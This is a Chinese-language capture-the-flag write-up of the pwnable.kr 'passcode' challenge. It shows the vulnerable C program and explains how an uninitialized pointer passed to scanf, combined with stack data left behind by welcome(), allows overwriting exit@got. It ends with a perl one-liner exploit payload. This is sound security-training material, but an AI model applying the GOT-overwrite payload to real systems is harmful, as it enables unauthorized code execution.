 ```yaml
---
title: passcode
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
  - pwnable.kr
---
```

代码如下

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
{% endhighlight %}

问题出在`login()`中，`scanf`的第二个参数给的不是变量的地址。如果`passcode1`和`passcode2`的初始值指向不可写的地方，而且`scanf`成功，那么就会segfault

于是思路就是，在`login()`执行前，在`welcome()`中把栈上的值设好。所以这道题和OverTheWire上的Manpage里一道题思路有相似的地方

具体地，`name`在`welcome()`中的地址是`ebp-0x70`，`passcode1`和`passcode2`在`login()`中的地址是`ebp-0x10`和`ebp-0xc`。正好我们只能改写`passcode1`，改不了`passcode2`。于是单纯地想把两个都修改为检查值的方法行不通了

但是我们发现，`passcode1`那里由于`scanf`，可以做到写4 bytes到任意地址。所以我们可以修改程序流程，让他跳到`system`读flag那里。

而由于ASLR，想修改返回地址不靠谱，于是我们可以修改`exit@got`。这样检查失败后，调用`exit(0)`就成了`system("/bin/cat flag");`

由`readelf -r passcode`可知`exit@got`在`0x0804a018`，于是把`passcode1`设为它；然后通过`scanf`将其改为`0x080485e3=134514147`。注意我们要让`passcode2`在`scanf`时不能segfault，于是输入非数字让`scanf`失败

<pre>$ perl -e 'print "A"x96 . "\x18\xa0\x04\x08" . "134514147\n" . "f\n"' | ./passcode</pre>

